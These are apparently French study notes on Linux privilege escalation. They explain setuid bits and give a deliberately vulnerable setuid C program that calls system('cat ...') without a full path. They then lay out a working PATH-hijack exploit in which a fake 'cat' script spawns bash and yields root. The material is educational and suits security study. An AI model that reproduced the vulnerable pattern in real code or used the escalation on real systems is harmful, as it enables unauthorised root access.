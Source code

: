 # Failles

## Escalade de privilièges

### Parlons du sticky bit

* Permission de base + des rajouts
	* **Sticky bit** Permet de maintenir l'éxécutable en cache.
	* **Setuid / Setgid** Permet d'éxécuter le programme entant que l'utilisateur propriétaire.

```Bash
ls `which passwd` -l
	-rwsr-xr-x 1 root root 54256 mai 17  2017 /usr/bin/passwd
```

* Faire qu'un programme avec le setuid éxecute la commande `bash`.

### Programme cassé

```C
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main(){
	setuid(0);
	system("cat /home/jean/protected/logs/day_1.txt");
	return 0;
}

```

### Lancement de `bash`

* Modification de la variable `PATH`
	* Création d'un fichier `cat`
		```Bash
		#!/bin/sh
		/bin/bash
	
		```
	* Modification du `PATH`
		```Bash
		export PATH=$HOME/exploit/
		```
	* Execution du programme
	* Et root.
	



